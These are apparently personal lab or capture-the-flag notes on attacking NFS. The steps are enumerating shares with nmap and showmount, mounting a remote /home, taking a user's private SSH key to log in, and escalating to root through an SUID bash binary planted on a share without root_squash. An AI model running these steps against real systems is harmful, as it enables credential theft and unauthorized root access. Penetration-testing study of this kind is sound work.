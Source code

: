 # Network File System

Allows system to share directories and files with others over a network

1. Client request to mount a directory from a remote host on local directory
2. Server checks if user has permission to mount whatever was requested
3. Server then returns a file handle which uniquely identifies each file and directory
4. To access files using NFS, RPC call is placed to NFSD on server.

You can use NFS to transfer files from Windows to Non-Windows.

## Enumerating NFS

### NFS-Common

Every system with NFS needs this installed, contains lockd, statd, **showmount**, nfsstat, gssd, idmap and **mount.nfs**.

Port scanning: 
``nmap -A -p- -oN nmap-$ip.out $ip`` and ``cat nmap-$ip.out | grep open``

### Mounting NFS shares

``sudo mount -t nfs IP:share /tmp/mount/ -nolock``

![image](https://user-images.githubusercontent.com/80155116/111902307-d3a36280-8aa1-11eb-82f9-e9b9d4446c77.png)

To list the NFS shares:

``/usr/sbin/showmount -e [IP]``

![image](https://user-images.githubusercontent.com/80155116/111902720-a788e100-8aa3-11eb-813d-2cf85294b561.png)

*not sure why this doesn't work, i had to manually trasverse to the location*

![image](https://user-images.githubusercontent.com/80155116/111902742-bb344780-8aa3-11eb-9e7d-249fd1f9fec1.png)

So now we have the share name ``/home``.

Make a folder on local machine to mount the share to ``mkdir /tmp/mount``, since it is /tmp, it will be removed upon restart.

Now run the mount command mentioned earlier to the folder ``sudo mount -t nfs $ip:home /tmp/mount/ -nolock``.

![image](https://user-images.githubusercontent.com/80155116/111902863-50cfd700-8aa4-11eb-911f-f58f82317d03.png)

``ls -la`` to list all the hidden files! we're interested in the .ssh folder, might contain keys.

![image](https://user-images.githubusercontent.com/80155116/111903015-fd11bd80-8aa4-11eb-8624-81a4b8ca6bb9.png)

authorized_keys —> An authorized key in SSH is a public key used for granting login access to users

id_rsa → this is the private key of the user which used to login to the system

id_rsa.pub → this is the key that used send others to encrypt when they send message to us.

### To gain SSH access

1. ``cp id_rsa /tmp`` copy id_rsa to /tmp
2. ``chmod 600 id_rsa`` change permission
3. ``ssh -i id_rsa cappucino@$ip``

## Exploiting NFS

### Shell Privilege Escalation

We'll try this since we have low shell on the machine, depending on how it's configured.

### root_squash

Prevents anyone connecting NFS from getting root access to the NFS volume, root squashing is enabled on default.

### SUID

When files are with SUID bit set, it means the files can be run with permission of owner/group, we'll use this to get shell with these privileges.

### Here's how to do it

* We can upload files and control their permissions
* We can set permission of whatever we upload(in this case a bash shell executable)
* We then log in with SSH, execute the file to get root shell.

``NFS Access ->

        Gain Low Privilege Shell ->

            Upload Bash Executable to the NFS share ->

                Set SUID Permissions Through NFS Due To Misconfigured Root Squash ->

                    Login through SSH ->

                        Execute SUID Bit Bash Executable ->

                            ROOT ACCESS
``
Download the bash file and move it to the mount on local. ``cp ~/Downloads/bash .``

``sudo chown root bash`` to make sure it's own by root user.

``chmod +s bash`` to add the SUID bit permission.

``chmod o+x bash`` to add exeecute on everyone else,

![image](https://user-images.githubusercontent.com/80155116/111904211-8aa3dc00-8aaa-11eb-95a6-bfd99ba4b81f.png)

you can see i spent ages here trying to figure out how to change permission of others to executable........................

``ssh -i id_rsa cappucino@$ip`` to ssh back to user,

``./bash -p`` to run the shell, ``-p`` persists the permissions so it can run as root with SUID, its important!

![image](https://user-images.githubusercontent.com/80155116/111904346-61d01680-8aab-11eb-9869-9ae474023bdb.png)

![image](https://user-images.githubusercontent.com/80155116/111904353-6ac0e800-8aab-11eb-8193-dd65f2167077.png)





